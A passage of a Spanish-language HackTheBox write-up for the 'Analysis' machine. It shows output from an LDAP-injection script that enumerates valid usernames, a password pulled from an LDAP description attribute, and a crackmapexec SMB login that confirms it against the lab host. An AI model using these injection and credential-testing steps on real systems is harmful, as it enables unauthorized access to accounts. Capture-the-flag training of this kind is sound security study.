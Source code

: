- Con esta `LDAP Injection` también podemos enumerar usuarios.

- <https://github.com/MikeRega7/Scripts/blob/main/HackTheBox/analysis/brute2.py>

```bash
➜  content python3 brute2.py
[-] Invalid or no user for: c
[+] Valid user: amanson
[-] Invalid or no user for: e
[-] Invalid or no user for: f
[-] Invalid or no user for: g
[+] Valid user: jangel
[+] Valid user: badam
[-] Invalid or no user for: d
[-] Invalid or no user for: h
[-] Invalid or no user for: i
[-] Invalid or no user for: k
[+] Valid user: lzen
[-] Invalid or no user for: n
[-] Invalid or no user for: m
[-] Invalid or no user for: o
[-] Invalid or no user for: p
[-] Invalid or no user for: q
[+] Valid user: technician
[-] Invalid or no user for: r
[-] Invalid or no user for: s
[-] Invalid or no user for: u
[-] Invalid or no user for: v
[-] Invalid or no user for: x
[-] Invalid or no user for: w
[-] Invalid or no user for: y
[-] Invalid or no user for: z
```

- Son los mismos usuarios.

- En el atributo de `description` en LDAP se suelen almacenar contraseñas gracias ala persona que compartió su script para hacerlo `in1t` <https://obx0x3.tech/whoami/>.

```bash
97NTtl*4QP96Bv
```

- Las credenciales son correctas.

```bash
➜  content cme smb 10.10.11.250 -u 'technician' -p '97NTtl*4QP96Bv'
SMB         10.10.11.250    445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.250    445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv
```

- Si probamos las credenciales en el `login` funcionan.

<p align="center">